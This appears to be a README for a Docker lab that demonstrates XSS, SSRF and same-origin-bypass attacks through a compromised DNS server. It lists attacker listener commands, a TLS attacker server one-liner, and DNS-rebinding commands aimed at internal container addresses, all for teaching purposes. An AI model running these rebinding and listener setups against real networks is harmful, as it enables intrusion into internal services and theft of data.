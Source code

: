 # DNS-Attacks

This project demonstrates three different attack vectors with the use of compromised DNS server.
- Cross-Site Scripting
- Server-Side Request Forgery
- Same-Origin Bypass

## Usage
First switch to the directory where the `docker-compose.yaml` file is located and run
```
docker-compose up -d
```

## Steps for each Attack

### XSS Attack
Attacker listener
```
python3 -m http.server 1337
```

Attacker server
```
python3 -c "import http.server, ssl; ctx=ssl.SSLContext(ssl.PROTOCOL_TLS_SERVER); ctx.load_cert_chain(certfile='cert.pem', keyfile='key.pem'); server=http.server.HTTPServer(('0.0.0.0', 443), http.server.SimpleHTTPRequestHandler); server.socket = ctx.wrap_socket(server.socket, server_side=True); server.serve_forever()"
```

Generate integrity checks for remote resources
```
sri-check -g <LINK>
```

### SSRF Attack
Attacker listener
```
python3 -m http.server 80
```

Rebinder command
```
python3 /opt/DNSrebinder/dnsrebinder.py --port 5253 --domain company.cyhub --rebind 172.18.0.3 --ip 216.58.214.142 --counter 1 --tcp --udp --ttl 0
```



### SOP Bypass
Attacker listener
```
python3 -m http.server 80
```

Rebinder command
```
python3 /opt/DNSrebinder/dnsrebinder.py --port 5253 --domain company.cyhub --rebind 172.18.0.3 --ip 172.18.0.1 --counter 1 --tcp --udp --ttl 0
```






